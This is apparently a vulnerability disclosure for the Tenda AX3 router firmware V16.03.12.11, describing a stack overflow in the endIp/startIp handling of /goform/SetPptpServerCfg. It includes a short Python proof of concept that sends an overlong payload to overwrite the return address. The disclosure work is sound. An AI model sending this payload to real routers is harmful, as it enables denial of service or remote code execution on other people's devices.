

# Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11](https://www.tenda.com.cn/material/show/103476))

## Overview

In the latest version V16.03.12.11 of the Tenda Router AX3, a critical security vulnerability exists. This vulnerability occurs in the `formSetPPTPServer` function when handling requests from the `/goform/SetPptpServerCfg` page.

## Vulnerability Details

During the processing of the request, the `endIp` and `startIp` parameters are concatenated onto the stack. 

This concatenation operation does not perform effective length checks, leading to a stack overflow, **which can result in denial of service (DoS) or remote code execution (RCE)**.


## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetPptpServerCfg"

retaddr="bbbb"
payload = "1.2.3."+"a"*0x2ec+p32(retaddr)
data = {
    "startIp": "1.2.3.4",
    "endIp": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo





